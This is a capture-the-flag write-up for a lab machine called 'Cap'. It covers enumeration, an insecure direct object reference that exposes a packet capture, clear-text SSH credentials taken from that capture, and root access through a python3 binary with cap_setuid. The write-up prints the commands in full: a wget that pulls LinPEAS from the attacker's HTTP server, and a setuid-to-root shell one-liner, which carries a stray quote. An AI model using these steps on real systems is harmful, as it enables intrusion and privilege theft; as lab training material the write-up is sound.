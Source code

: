 # Cap

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## Enumeration

Nmap as always, gives 3 ports open : SSH, FTP , HTTP.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption><p>NMAP output.</p></figcaption></figure>

Before checking what's hosted on port 80, I'll try getting what's available on the ftp server and download it on my machine using this command:

```shell-session
$ wget -m --no-passive ftp://annonymous:annonymous@cap.htb
```

Which resulted in nothing. So we move on. Here's what we found on port 80

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Poking around a bit, letting out nmap and ffuf going on the background we found out that network status is showing us the incoming network traffic to the server:

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Nothing interesting for now, same goes for the IP config panel.

Meanwhile, Ffuf and nmap scripts didn't give us much to exploit.

So looking at the Security snapshot panel which redirected us to /data/7:

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

Trying some path traversal didn't work because there's input sanitization.

So upon trying to access another data then the 7th IT WORKED! and intuitively we went to `/data/0` and download the `.pcap` file.

## Wireshark

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

## User flag

Looking around the protocols  we found clear-text credentials for the user nathan which connected us successfully through ssh:

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

## Priv esc

The sudo -l command can't be used since we don't have the perms so to enumerate further i downloaded LinPEAS.sh from my custom python http server:

```shell-session
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And then downloaded it with a simple wget command:

```shell-session
$ wget http://10.10.14.60:8000/linPEAS.sh
```

{% hint style="danger" %}
You must put the file you want to download in the same directory from where you launched the python http server to be able to access it.
{% endhint %}

Upon enumeration, we got an interesting file with interesting capabilities:

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

> ## From capabilities(7) — Linux manual page
>
> ```
>        For the purpose of performing permission checks, traditional UNIX
>        implementations distinguish two categories of processes:
>        privileged processes (whose effective user ID is 0, referred to
>        as superuser or root), and unprivileged processes (whose
>        effective UID is nonzero).  Privileged processes bypass all
>        kernel permission checks, while unprivileged processes are
>        subject to full permission checking based on the process's
>        credentials (usually: effective UID, effective GID, and
>        supplementary group list).
>
>        Starting with Linux 2.2, Linux divides the privileges
>        traditionally associated with superuser into distinct units,
>        known as capabilities, which can be independently enabled and
>        disabled.  Capabilities are a per-thread attribute.
> ```

Diving into cap\_setuid here's what it does:

In Linux, the CAP\_SETUID and CAP\_SETGID capabilities allow a process to change its UID and GID, respectively, providing control over user and group identity management. Attackers may leverage a misconfiguration for exploitation in order to escalate their privileges to root.

So we need a python script that changes the uid to 0 (root) and simply pop a shell. Here's one:

```python
import os; os.setuid(0); os.system("/bin/bash")'
```

```shell-session
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")''
```

{% hint style="success" %}
And we succesfully got the flag!
{% endhint %}

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>
